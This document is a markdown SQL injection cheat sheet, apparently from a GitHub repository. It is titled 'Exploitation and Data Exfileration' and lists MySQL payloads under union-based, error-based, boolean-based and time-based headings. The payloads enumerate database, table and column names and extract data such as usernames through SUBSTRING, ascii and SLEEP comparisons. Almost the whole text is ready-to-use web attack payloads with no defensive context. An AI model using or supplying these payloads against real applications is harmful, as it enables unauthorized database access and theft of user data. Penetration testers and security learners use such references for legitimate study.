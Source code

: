 # Exploitation and Data Exfileration

 # UNION BASED

Database Name
```
UNION SELECT 1,database(),3,4,5,6,7,8,9,10,11
```
Table Name
```
UNION SELECT 1,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 0,1),3,4,5,6,7,8,9,10,11
```

Column name
```
UNION SELECT 1,(SELECT column_name FROM information_schema.columns WHERE table_name='carts' limit 1,1),3,4,5,6,7,8,9,10,11

UNION SELECT 1,(SELECT column_name FROM information_schema.columns WHERE table_name='cedveladi' limit 1,1),3,4,5,6,7,8,9,10,11
```

# ERROR BASED

Database Name
```
extractvalue(rand(),concat(1,(database())))
```
Table Name
```
extractvalue(rand(),concat(1,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 1,1)))
```
Column Name 
```
extractvalue(rand(),concat(1,(SELECT column_name FROM information_schema.columns WHERE table_name='cedveladi' limit 1,1)))
```

# BOOLEAN BASED

Database Name size enumeration
```
AND (length(database())) = 15 --+
```

Database Name
```
AND SUBSTRING(database(),1,1)='b'
```

Table Name
```
AND SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1),1,1)='c'
```
Column Name 
```
AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='cedvelinadi' LIMIT 1,1),1,1)='c'
```
Data
```
AND SUBSTRING((SELECT uname FROM users LIMIT 0,1),1,1)='t'
```
Speed up ....
![68747470733a2f2f7777772e61736369697461626c652e636f6d2f617363696966756c6c2e676966](https://github.com/azar-malikov/SQLi_cheatsheet/assets/103067933/5be75e82-2665-470f-9266-0983ae02ab31)

Database Name size enumeration
```
AND (length(database())) = 15 --+
```

Database Name
```
AND (ascii(substr((select database()),1,1))) > 110 --+
```

Table Name Size
```
AND (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))) = 4 --+
```

Table Name
```
AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1) ,1,1))) > 108 --+
```

Column Name Size

```
AND (length((select column_name from information_schema.columns where table_name='cedvelinadi' limit 0,1))) = 4 --+
```

Column Name 
```
AND (ascii(substr((select column_name from information_schema.columns where table_name='cedvelinadi' limit 4,1) ,1,1))) > 114 --+
```
Data size
```
AND (length((select sutununadi from cedvelinadi limit 0,1))) = 6 --+
```
Data
```
AND (ascii(substr((select sutununadi from cedvelinadi limit 3,1) ,1,1))) > 114 --+
```


# TIME BASED
Database Name size enumeration
```
AND IF(length(database())=1,SLEEP(2),2)
```

Database Name
```
AND IF((SELECT database()) LIKE "",sleep(10),NULL)--
```

Table Name Size
```
 AND IF(length((select table_name from information_schema.tables where table_schema=database() LIMIT 0,1))=7,SLEEP(2),2)
```

Table Name
```
AND IF(((ascii(substr((SELECT table_name FROM information_schema.tables LIMIT 0,1),1,1)))) > 95,sleep(10),NULL)--
```

Column Name Size
```
AND IF(length((select column_name from information_schema.columns where table_name='users' LIMIT 0,1))=5,SLEEP(2),2)
```
Column Name
```
AND IF(((ascii(substr((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1),1,1)))) = 117,sleep(2),NULL)--
```

SPEED UP IN ASCII

Database Name

```
AND IF(((ascii(substr(Database(),1,1)))) > 95,sleep(10),NULL)--
```

Table Name 
```
AND IF(((ascii(substr((SELECT table_name FROM information_schema.tables LIMIT 0,1),1,1)))) > 95,sleep(10),NULL)--
```

Column Name 
```
AND IF(((ascii(substr((SELECT column_name FROM information_schema.columns LIMIT 0,1),1,1)))) > 95,sleep(10),NULL)--
```
Data size
```
AND (length((select sutununadi from cedvelinadi limit 0,1))) = 6 --+
```
Data
```
AND IF(((ascii(substr((select sutununadi from cedvelinadi limit 3,1),1,1)))) > 95,sleep(10),NULL)--
AND (ascii(substr((select sutununadi from cedvelinadi limit 3,1) ,1,1))) > 114 --+
```

